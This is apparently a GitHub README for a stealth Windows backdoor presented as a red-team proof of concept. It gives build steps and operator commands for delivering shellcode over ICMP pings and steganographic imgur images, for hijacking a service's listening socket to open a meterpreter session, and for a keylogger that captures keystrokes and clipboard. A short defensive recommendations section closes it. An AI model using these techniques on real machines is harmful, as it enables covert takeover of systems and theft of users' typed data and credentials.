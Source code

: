 Virtual Reality
===============

This is a backdoor project for windows operating systems.

## Intended audience

This is a proof-of-concept stealthy backdoor aimed to aid red teams in maintaining
control of their targets during the security evaluation process. The project also intends
to expose ways to abuse standard features.

## Features

Extremely stealthy backdoor for Windows platform.

* ICMP-PING backdoor. Passively listens for incoming pings and executes shellcode
delivered in ping payload.
* HTTP backdoor using steganographically encoded images hosted on imgur.com
* Grand-theft-socket - a payload for executing shellcode through the socket of existing
service,
* Runs on anything from XP to W10

## Details

* Small size by using tinystl and avoiding standard c++ stl
* Cooperative multitasking achieved by using Windows fibers
* Permissively licensed, including all dependencies

## Build instructions

1. (Optional) Download appropriate [VC-LTL](https://github.com/Chuyu-Team/VC-LTL/releases)
and extract to `VC-LTL` folder.
2. `git clone https://github.com/rokups/virtual-reality`. Now you have two folders next to
each other: `VC-LTL` and `virtual-reality.
3. `mkdir cmake-build; cd cmake-build`.
4. `cmake -DCMAKE_BUILD_TYPE=MinSizeRel ../virtual-reality`.
5. `cmake --build . --config MinSizeRel`. Note that VC-LTL does not support debug builds.
Do not build `Debug` configuration or ensure that `_DEBUG` preprocessor symbol is undefined.
6. Payloads are found in `cmake-build/bin` directory.

VC-LTL is used for linking to `msvcrt.dll` and greatly reducing executable sizes.

MinGW builds are deprecated. They may work or may be broken. Reason for this is that
executables built with MinGW crash when used in some injection techniques. I did not
care enough to figure it out.

## Instructions

Modify `config.h` to suit your needs.

Use `vr.py` to interact with the backdoor.

### Shellcode payload

`vr.py shellcode path/to/shellcode.bin` reads shellcode into the script's memory.
On its own this is useless therefore combine it with other commands. You may
use `-` instead of path in order to read shellcode from `stdin`.

### Ping transport

`msfvenom <...> | vr.py shellcode - -- ping 192.168.0.1` reads a shellcode from
`stdin` and sends it via icmp-ping to `192.168.0.1`. Backdoor running on that
machine will execute this shellcode.

The shellcode will be delivered to the target by sending it as ICMP-PING packet payload.

![ping-demo](https://user-images.githubusercontent.com/19151258/52339219-2c742600-2a15-11e9-95b0-212485421e35.png)

Content of the packet appears to be random. The only give-away that something is up
is a rather big packet size, although it is possible to customized packet size
using ping utility or specify custom payload (Linux).

### imgur.com transport

`msfvenom <...> | vr.py shellcode - -- png path/to/image.png` reads a shellcode
from `stdin` and encodes into specified `image.png`. This image must exist and
it must be in RGB format (no alpha). Resulting image should be uploaded to
https://imgur.com/ and tagged with one or more tags while one of the tags must be
one that is specified in `config.h`.

The shellcode will be encoded into a specified image by altering the last two bits of
each color component in the target image. 1 byte needs 4 color components
to be encoded and thus requires 1.(3) pixels. Encoded images are indistinguishable
from original to the naked eye. Backdoor queries imgur API for listing images
tagged with a configured tag. Every new image is downloaded and inspected for
encoded payload.

![steg-demo](https://user-images.githubusercontent.com/19151258/52338654-adcab900-2a13-11e9-9887-3a55cde9dc36.png)

Left - original image. Right - image with the encoded payload. Bottom - difference mask.
120x75 image was used. As you can see only a tiny portion of the pretty small image is used
to encode 449 bytes payload.

### Grand-theft-socket

This is a technique meant to backdoor a machine that:
1. Has a public service listening (TCP).
2. No outgoing traffic is allowed.

`gts.dll` payload is meant to be injected to process of service that listens on public
interface. This payload hooks `WSAAccept()` function and allows creating meterpreter
session through the listening socket of already existing service while still allowing
normal traffic to flow as if nothing has happened.

When new connection is being made payload does the following:
1. Looks for a `tcp_knock` command and if found - whitelist command sender and terminate the connection.
2. When connection comes from a whitelisted IP address:
  1. Spawn a new process.
  2. `WSADuplicateSocket()` newly connected socket into the newly created process.
  3. The new process will read shellcode size, shellcode itself and execute received shellcode.
  4. Simulate disconnection by returning `INVALID_SOCKET` with `WSAECONNRESET` error to the host process.
  5. Clear whitelisted address. A new knock will be required for executing the next payload.
3. When connection is made from non-whitelisted address and no `tcp_knock` is received -
hand connection back to the host.

Usage:
1. On target host - inject `gts.dll` into process that accepts connections.
2. On source host - execute `vr.py tcp_knock target_ip_address service_port`
3. On source host - execute `meterpreter/bind_tcp` payload with `RHOST=target_ip_address`
and `LPORT=service_port` within 30 seconds since sending `tcp_knock`.
4. Observe that you just received meterpreter session.

### Keylogger

Keylogger module works by injecting a dll to a process that runs in user's session.
It is injected into explorer.exe by default. Only one injection per user session will
be active. Keylogger monitors user's keystrokes and clipboard and writes contents into
file `C:\Windows\Temp\????????-????-????-????-????????????.N` where `?` is `[A-F0-9]`
and `N` is a number (starting from 0). This file is a zip archive with first two bytes
zeroed out. In order to access logs user should download a file and restore first two
bytes which are `PK`. Removing file will cause keylogger to create a new archive next
time any logs are available. Keylogger thread exits and frees it's memory if main
backdoor terminates.

## Security

Payload is always obfuscated using the RC4 algorithm. As you probably have guessed
replay attacks are a thing against this backdoor. Also, backdoor may be controlled
by a rival blue team if they have reverse-engineered sample and recovered RC4
key. Utmost security is not the point of this project. If the blue team is on to the
backdoor - nothing will save it anyway.

## Recommendations

* If possible - filter out ICMP-PING packets within the firewall
* Take a proactive approach in monitoring your networks. Log everything and
look for abnormalities. Chances are your servers have no business querying
imgur.com or similar social media domains.
* Periodically scan your critical services for inline hooks.

## etc

Q: Why this name? This has nothing to do with virtual reality.

A: Nothing at all. And no reason really. Naming is hard.
